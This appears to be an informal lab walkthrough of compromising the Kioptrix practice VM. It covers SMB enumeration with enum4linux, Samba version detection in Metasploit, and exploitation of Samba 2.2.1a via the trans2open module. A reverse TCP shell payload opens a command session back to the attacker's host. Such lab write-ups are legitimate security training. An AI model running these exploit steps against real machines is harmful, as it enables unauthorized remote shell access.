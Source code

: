 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.61 seconds

so some items listed

note i can see smb - so lets try that:
first lets scan it to see what we can get:

enum4linux -a 192.168.1.101

this returns a lot:

but version is not enmurated

 ======================================= 
|    OS information on 192.168.1.101    |
 ======================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.1.101 from smbclient: 
[+] Got OS info for 192.168.1.101 from srvinfo:
        KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
        platform_id     :       500
        os version      :       4.5
        server type     :       0x9a03


so we can use msf to ident this:
msfconsole
use auxiliary/scanner/smb/smb_version
set rhost 192.168.1.101
run

which returns this: 
192.168.1.101:139     -   Host could not be identified: Unix (Samba 2.2.1a)

so a quick google:
and we land on: https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/

and at the bottom this is also built into msf, and guide at bottom of that page
msfconsole 
use exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp
set rhosts 192.168.1.101
exploit

##output:
msf6 exploit(linux/samba/trans2open) >  set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.1.97:4444 
[*] 192.168.1.101:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.101:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.101:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.101:139 - Trying return address 0xbffffafc...
[*] 192.168.1.101:139 - Trying return address 0xbffff9fc...
[*] 192.168.1.101:139 - Trying return address 0xbffff8fc...
[*] 192.168.1.101:139 - Trying return address 0xbffff7fc...
[*] 192.168.1.101:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (192.168.1.97:4444 -> 192.168.1.101:1041 ) at 2022-03-18 11:17:48 -0400
